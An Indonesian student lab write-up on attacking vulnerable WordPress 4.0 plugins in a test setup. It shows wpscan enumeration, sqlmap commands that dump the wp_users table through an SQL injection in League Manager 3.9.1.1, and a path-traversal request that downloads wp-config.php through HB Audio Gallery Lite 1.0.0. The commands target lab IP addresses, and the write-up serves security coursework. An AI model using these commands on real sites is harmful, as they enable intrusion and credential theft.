



##Dokumentasi Perancangan Keamanan Sistem dan Jaringan

>###Penulis
>* M. Syaiful Jihad A.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100022
>* Yoga Bayu Aji P.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100023
>* Bagas Andita S.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100029

##Percobaan Serangan pada Plugins CMS Wordpress

##Simulasi dan skema serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Percobaan kali ini akan melakukan serangan pada celah keamanan yang ada pada plugin wordpress. Alat yang digunakan menggunakan wordpress versi 4.0. Kemudian akan diinstall beberapa plugin yang memiliki celah keamanan.

###Persiapan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pertama kita siapkan dulu CMS Wordpress yang akan digunakan. CMS dapat diunduh dari link [berikut](http://https://wordpress.org/download/).

####Langkah Installasi
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Persiapan untuk melakukan installasi wordpress:
- Web Server (Apache)
- Database (MySQL)
- PHP (5.6)

Sebelum melakukan installasi wordpress, kita persiapkan database dan usernya terlebih dahulu. Pada percobaan kali ini didapatkan konfigurasi sebagai berikut
>Database: wordpress
>DB Username: wordpressuser
>DB Password: wppasswd

Setelah semua terinstall maka extract CMS wordpress yang sudah kita download tadi kedalam folder /var/www/html. Setelah itu buat file konfigurasi wordpress. Dalam wordpress sudah disediakan contoh file konfigurasi sehingga kita dapat menggunakannya.
```
cp wp-config-sample.php wp-config.php
```
Setelah itu kita edit file ++wp-cinfig.php++ dan masukan konfigurasi koneksi database seperti pada gambar dibawah


Setelah itu kita buka wordpress dari web browser dan masukkan konfigurasi password admin login dan nama website. Username yang digunakan:
>Username: testing
>Password: testing

Setelah semua konfigurasi selesai, kita menginstall plugin yang akan kita pasang dan melakukan uji coba serangan. Cara menginstallasi plugin tersebut, kita meletakkan plugin yang sudah kita download kedalam folder wp-content/plugins/. Setelah itu kita masuk kedalam dashboard admin pada wordpress dan melakukan aktivasi plugin yang sudah kita install.


###Uji Coba Serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukan uji coba serangan plugin wordpress, kali ini kita menggunakan Sistem Operasi Kali Linux. Setelah melakukan installasi, kita melakukan enumerasi terhadap target untuk mengetahui apa saja celah keamanan yang ada pada website tersebut. Tools yang digunakan adalah [WPScan](http://wpscan.org). Untuk melakukan enumerasi gunakan perintah:
```
wpscan --url http://target.com --enumerate
```
```
# wpscan --url http://10.151.36.38/wordpress --enumerate
```

Maka akan muncul seperti ini:


####Uji Coba Dengan Plugin Video Player 1.5.16
berikut ini adalah tampilan plugin video player 1.5.16


uji coba menggunakan wpscan didapati hasil sebagai berikut


kemudian akan ditemukan sebuah username yang digunakan untuk login pada website seperti berikut ini :


catatan : alamat website adalah alamat website berbeda (dengan IP address 192.168.232.129)

####Uji Coba Menggunakan League Manager 3.9.1.1
Pada tahap ini dilakukan instalasi plugin league manager versi 3.9.1.1. berikut ini adalah tampilan plugin league manager 3.9.1.1 ketika sudah diaktifkan :


Pada uji coba ini dihasilkan hasil yang sama seperti ketika menggunakan plugin video player 1.5.16


####Uji Coba Serangan SQL Injection
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukan uji coba serangan SQL Injection, maka kita memerlukan tools yang bernama [sqlmap](http://sqlmap.org). Kali ini kita akan mencoba melakukan serangan pada plugin League Manager dengan celah keamanan seperti pada website [ini](https://www.exploit-db.com/exploits/37182/). 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukannya kita akan menyerang link dari pertandingan yang ada pada website tersebut. Perintah yang  digunakan untuk mendapatkan database yang digunakan adalah:
```
sqlmap --url "http://target.com/?match=1" --level 5 --risk 3 -dbs
```
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 -dbs
```

Maka akan dihasilkan :


Selanjutnya kita akan mencari tabel yang ada dalam database tersebut. Perintah yang digunakan adalah sebagai berikut ini:
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 --tables -D wordpress
```
Akan muncul semua tabel yang ada. Disini kita menumukan table wp_user, untuk itu kita akan melihat data apa saja yang ada dalam tabel tersebut. Perintah yang digunakan adalah:
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 --dump -D wordpress -T wp_users
```

Tara, kita mendapatkan hasil username dan password dari login wordpress yang terdaftar.



>Note: hasil password didapat karena hash sudah ada dalam dictionary

####Uji Serangan pada Plugin HB Audio Gallery Lite 1.0.0
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pada plugin tersebut terdapat sebuah celah keamanan berupa Arbitrary File Donwload. Jadi celah keamanan ini dapat mendownload file yang seharusnya tidak boleh diakses oleh pengguna. Dokumentasi dari celah ini dapat dibaca [disini](https://www.exploit-db.com/exploits/39589/). Cara memanfaatkan celah ini adalah dengan menggunakan  perintah:
```
/wp-content/plugins/hb-audio-gallery-lite/gallery/audio-download.php?file_path=../../../../wp-config.php&file_size=10
```

Setelah menjalankan perintah tersebut maka file wp-config.php akan didownload.
